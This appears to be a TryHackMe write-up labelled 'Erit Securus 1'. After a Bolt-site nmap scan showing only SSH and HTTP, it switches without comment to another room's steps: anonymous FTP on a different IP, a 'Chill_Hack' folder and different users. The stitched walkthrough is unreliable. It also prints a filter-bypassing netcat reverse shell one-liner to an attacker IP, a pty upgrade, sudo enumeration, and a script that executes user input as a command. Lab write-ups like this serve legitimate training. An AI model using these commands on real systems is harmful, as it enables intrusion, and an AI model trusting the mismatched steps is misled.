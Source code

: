# 🏴 TryHackMe - Erit Securus 1
![alt text](images/1.png)
> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.247.233
![alt text](images/2.png)
****

### Nmap Scan
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Erit Securus 1]
└─$ nmap -sC -sV -oN Nmap/initial 10.10.6.252  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 09:51 EDT
Nmap scan report for 10.10.6.252
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b1:ac:a9:92:d3:2a:69:91:68:b4:6a:ac:45:43:fb:ed (DSA)
|   2048 3a:3f:9f:59:29:c8:20:d7:3a:c5:04:aa:82:36:68:3f (RSA)
|   256 f9:2f:bb:e3:ab:95:ee:9e:78:7c:91:18:7d:95:84:ab (ECDSA)
|_  256 49:0e:6f:cb:ec:6c:a5:97:67:cc:3c:31:ad:94:a4:54 (ED25519)
80/tcp open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Graece donan, Latine voluptatem vocant. | Erit Securus 1
|_http-generator: Bolt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
>***Ports open 22 shh, 80 http***
***Webserver is buit on Bolt***
![alt text](image.png)

```bash  
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ ftp 10.10.132.2                    
Connected to 10.10.132.2.
220 (vsFTPd 3.0.5)
Name (10.10.132.2:robert): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16016|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||41095|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |*********************************************************|    90      861.67 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (1.63 KiB/s)
ftp> 
```
>cat note.txt
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ cat note.txt                             
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
>Anurodh might be an user

### GoBuster Enuemeration 
![alt text](image-1.png)
>/secret looks interesting, let's see
![alt text](image-2.png)
>web-shell, nice, let's try with reverse shell if we can execute commands
![alt text](image-3.png)
>ls is not working, we have to go deeper
>reverse shell, we are in r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.197.1 4444 >/tmp/f, using " " to bypass the filter 
![alt text](image-4.png)

>the shell is non interactive, let's import python3 -c 'import pty;pty.spawn("/bin/bash")'

![alt text](image-5.png)

>Before starting my enumeration, First I want to know that if I can run any commands as sudo. Here, I find I can run a script named .helpline.sh as apaar.                                                                                           

```bash
www-data@ip-10-10-132-2:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-132-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-132-2:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

>cat .helpline.sh

```bash
www-data@ip-10-10-132-2:/home/apaar$ cat .helpline.sh
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```